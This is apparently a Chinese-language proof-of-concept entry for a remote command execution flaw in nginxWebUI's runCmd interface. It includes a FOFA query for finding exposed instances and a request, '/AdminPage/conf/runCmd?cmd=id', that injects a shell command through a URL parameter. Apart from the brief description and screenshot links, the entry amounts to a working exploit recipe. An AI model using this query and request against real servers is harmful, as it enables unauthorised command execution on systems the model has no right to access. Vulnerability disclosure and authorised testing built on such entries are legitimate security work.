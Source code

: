 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## FOFA

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704113520591.png)